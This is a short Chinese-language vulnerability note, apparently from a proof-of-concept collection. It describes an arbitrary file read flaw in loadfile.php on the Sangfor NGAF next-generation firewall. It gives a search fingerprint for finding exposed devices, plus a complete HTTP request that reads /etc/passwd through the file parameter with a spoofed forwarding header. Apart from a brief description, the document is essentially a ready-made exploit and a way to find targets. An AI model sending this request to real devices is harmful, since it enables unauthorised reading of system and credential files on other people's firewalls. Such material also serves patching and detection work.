

# 深信服 NGAF下一代防火墙 loadfile.php 任意文件读取漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 loadfile.php 处存在文件读取漏洞，攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态

## 漏洞影响

<a-checkbox checked>深信服 NGAF下一代防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Redirect.php?url=LogInOut.php"</a-checkbox></br>

## 漏洞复现

登陆页面


验证POC

```php
GET /svpn_html/loadfile.php?file=/etc/./passwd HTTP/1.1
Host: 
User-Agent: Opera/8.90.(Windows NT 6.0; is-IS) Presto/2.9.177 Version/10.00
Accept-Encoding: gzip, deflate
Accept: */*
y-forwarded-for: 127.0.0.1
```

